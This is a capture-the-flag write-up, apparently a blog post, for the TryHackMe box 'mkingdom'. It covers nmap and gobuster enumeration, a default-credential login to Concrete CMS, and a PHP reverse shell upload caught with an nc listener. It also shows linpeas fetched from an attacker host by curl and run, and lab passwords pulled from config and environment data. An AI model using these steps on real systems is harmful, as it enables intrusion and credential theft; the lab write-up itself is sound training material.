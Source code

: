```yaml
---
layout: post
title:  "TryHackMe: mkingdom"
description: Beginner-friendly box inspired by a certain mustache man.
date:   2024-07-08 11:43:59 +0100
categories: jekyll update
---
```


# mkingdom :
```sh
export IP= M-ip
```
# Enumeration:

I found the Port 85 referring to HTTP instead of 80.

```sh
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-09-20 18:42 EDT
Scanning 10.10.198.213 [4 ports]
Nmap scan report for 10.10.198.213
Host is up, received echo-reply ttl 63 (0.092s latency).
Scanned at 2024-09-20 18:42:40 EDT for 13s
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE REASON         VERSION
85/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.7 ((Ubuntu))
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: 0H N0! PWN3D 4G4IN

NSE: Script Post-scanning.
Completed NSE at 18:42, 0.00s elapsed
NSE: Starting runlevel 3 (of 3) scan.
Initiating NSE at 18:42
Completed NSE at 18:42, 0.00s elapsed
Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 12.78 seconds
           Raw packets sent: 1037 (45.604KB) | Rcvd: 1008 (40.312KB)
```
 
# Directory bruteforcing:

I found his /app directory that contain the web app with the concrete cms 8.5.2, this version has a CVE-2020-11476.

```sh
gobuster dir --url http://10.10.198.213:85/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
```sh
/app                  (Status: 301) [Size: 314] [--> http://10.10.198.213:85/app/]
```

![Screenshot_1](https://github.com/user-attachments/assets/4f368621-4827-4a50-977b-623e5a3b9cf6)

I checked the Blog to see if i can find some users .

![Screenshot_2](https://github.com/user-attachments/assets/2604c4b7-bae8-429e-bc76-78ef13368784)

I found this user 

![Screenshot_3](https://github.com/user-attachments/assets/3bd15567-9cb4-4f04-8508-c8d179095415)

I tried some default passwords on this user 'admin' the password is 'password'

![Screenshot_9](https://github.com/user-attachments/assets/8bc6a101-ba04-4266-802f-d4ee6a561831)

as i mentioned before the concrete cms 8.5.2 has a vuln thats make me add an extension to allow php file type to be downloaded to the machine.

![Screenshot_4](https://github.com/user-attachments/assets/97b5b439-0527-4a2c-84a9-bc248cb2f7ff)
![Screenshot_5](https://github.com/user-attachments/assets/0e70e322-77f6-4f0b-a804-66bfa7bf1c61)

Here i uploaded a php reverse shell to the machine and i got the ip to run it 

![Screenshot_6](https://github.com/user-attachments/assets/fa29c9fc-e852-459c-bfe7-f8a408e90060)
![Screenshot_7](https://github.com/user-attachments/assets/17ba45cc-0a26-431f-9ddf-8b394456760c)

# Initial access :
```sh
 nc -lvnp 9999   
```                       
```sh
listening on [any] 9999 ...
connect to [10.9.0.17] from (UNKNOWN) [10.10.198.213] 55916
Linux mkingdom.thm 4.4.0-148-generic #174~14.04.1-Ubuntu SMP Thu May 9 08:17:37 UTC 2019 x86_64 x86_64 x86_64 GNU/Linux
 19:05:35 up 35 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data),1003(web)
```
I used linpeas to enumerate the machine 

```sh
Attacker Machine
python3 -m http.server 80
Victim Machine
curl http://attackerIP/linpeas.sh -o linpeas.sh 
./linpeas.sh
```
I found password of the user toad in config file of the application concrete cms 8.5.2
 
![Screenshot_11](https://github.com/user-attachments/assets/0720af85-e3b0-4c3b-9f2e-d7058ef7685d)

After a lot of enumeration i found that the password of user mario is in the env  

![Screenshot_12](https://github.com/user-attachments/assets/265fc5aa-47c5-4814-ab52-d1be3675cd12)

```sh
echo 'aWthVGVOVEFOdEVTCg==' |base64 -d                         
ikaTeNTANtES
```
